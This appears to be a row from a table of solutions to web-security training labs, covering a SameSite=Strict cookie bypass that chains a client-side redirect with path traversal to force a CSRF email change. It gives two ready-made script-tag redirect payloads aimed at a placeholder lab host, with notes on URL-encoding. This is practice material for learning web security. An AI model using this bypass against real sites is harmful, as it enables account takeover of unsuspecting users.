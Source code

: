|49    |SameSite Strict bypass via client-side redirect                                                                          |In exploit server:  <script>     document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account"; </script>  Generate a CSRF PoC on changing email, make sure the GET method is used by changing the request method. Change the postId parameter in your exploit server to include the full GET request for changing email address.  <script>     document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1"; </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |SameSite=Strict explicitly set when a cookie is issued. This prevents the browser from sending a cookie in cross-site requests.  There is a redirect function when posting a comment./post/comment/confirmation?postId=x using the imported JavaScript file /resources/js/commentConfirmationRedirect.js  You can use path traversal so that the redirect URL will point to the account page.  /post/comment/confirmation?postId=1/../../my-account. you can use the postId parameter to elicit a GETrequest for an arbitrary endpoint on the target site.  needs to include the submit parameter and URL encode the ampersand delimeter to avoid breaking out of the postId parameter in the initial setup request. (%40).                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |CSRF, Practitioner, Review                  |
